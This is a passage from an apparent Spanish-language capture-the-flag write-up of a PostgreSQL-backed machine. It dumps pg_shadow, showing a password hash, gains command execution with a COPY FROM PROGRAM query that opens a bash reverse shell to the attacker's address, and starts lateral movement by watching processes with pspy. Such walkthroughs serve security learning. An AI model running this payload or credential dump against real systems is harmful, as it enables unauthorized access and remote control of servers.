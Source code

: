 Obtendremos todas las tablas, en este caso le indicamos con el SELECT que obtenga la columna llamada ```tablename``` de ```pg_tables``` la cual tiene todas las tablas de la base de datos ```moon_namesdb```, podemos observar dos tablas interesantes: ```pg_user_mapping``` y ```pg_shadow```, si mostramos todos los datos usando ```SELECT * FROM pg_shadow``` nos mostrara eso:

```json
"values":[
    [
        "postgres",
        "grafana_viewer"
    ],
    [
        "10",
        "16385"
    ],
    [
        null,
        "SCRAM-SHA-256$4096:K9IJE4h9f9+tr7u7AZL76w==$qdrtC1sThWDZGwnPwNctrEbEwc8rFpLWYFVTeLOy3ss=:oD4gG69X8qrSG4bXtQ62M83OkjeFDOYrypE3tUv0JOY="
    ],
]
```

Parace ser el hash de una contraseña, que no podemos crackear, y si mostramos los datos de ```pg_user_mapping``` no saldra nada, asi que es posible que debamos de hacer otra cosa, intentaremos realizar un RCE para mandarnos una reverse shell, guiandonos de [aqui](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md#postgresql-command-execution) usaremos este consulta para conseguir RCE:

```sql
CREATE TABLE cmd_exec(cmd_output text); COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/<tu ip>/443 0>&1\"';
```
- Con ```CREATE TABLE cmd_exec(cmd_output text)``` le estamos diciendo que cree una tabla llamada ```cmd_exec``` en la cual tendra una columna llamada ```cmd_output``` de tipo ```text```, la cual tendra el resultado del comando ejecutado

- Despues con ```COPY cmd_exec FROM PROGRAM 'bash -c \"bash -i >& /dev/tcp/<tu ip>/443 0>&1\"'``` le estamos diciendo que copie datos a la tabla ```cmd_exec``` ademas de que con ```PROGRAM``` estamos haciendo el llamado de un programa externo el cual es ```bash``` y ejecutara la reverse shell

Y ya conseguimos una reverse shell

## Movimiento lateral de postgres a Juno

Empezaremos analizando los procesos que esten ejecutandose en la maquina, asi que ejecutare pspy y encontraremos que se esta ejecutando un script desde el usuario Juno

```bash
CMD: UID=1000  PID=21104  | /bin/bash /home/juno/shadow-simulation.sh
```

Ademas tambien veremos que esta copiando el archivo ```network-simulation.yml``` a ```/dev/shm```

```bash
cp -a /home/juno/shadow/examples/http-server/network-simulation.yml /dev/shm/
```
